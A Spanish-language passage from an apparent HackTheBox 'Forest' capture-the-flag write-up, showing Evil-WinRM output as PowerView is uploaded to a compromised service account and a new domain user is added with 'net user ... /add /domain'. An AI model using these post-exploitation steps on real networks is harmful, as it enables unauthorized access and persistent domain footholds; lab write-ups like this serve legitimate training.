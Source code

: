 - Vamos a importar el **PowerView** en la maquina victima <https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1>.

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> upload PowerView.ps1
                                        
Info: Uploading /home/miguel7/Hackthebox/Forest/content/PowerView.ps1 to C:\Users\svc-alfresco\Documents\PowerView.ps1
                                        
Data: 1027036 bytes of 1027036 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> dir


    Directory: C:\Users\svc-alfresco\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/17/2023   6:17 PM          15497 20230617181736_BloodHound.zip
-a----        6/17/2023   6:17 PM          23725 MzZhZTZmYjktOTM4NS00NDQ3LTk3OGItMmEyYTVjZjNiYTYw.bin
-a----        6/17/2023   7:22 PM         770279 PowerView.ps1
-a----        6/17/2023   6:02 PM         973325 SharpHound.ps1


*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> 
```

- Ahora vamos a crear el usuario a nivel de dominio.

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user miguel miguel123$! /add /domain
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> 
```

- El usuario se creo. 

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user miguel
User name                    miguel
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            6/17/2023 7:23:24 PM
Password expires             Never
Password changeable          6/18/2023 7:23:24 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Domain Users
```
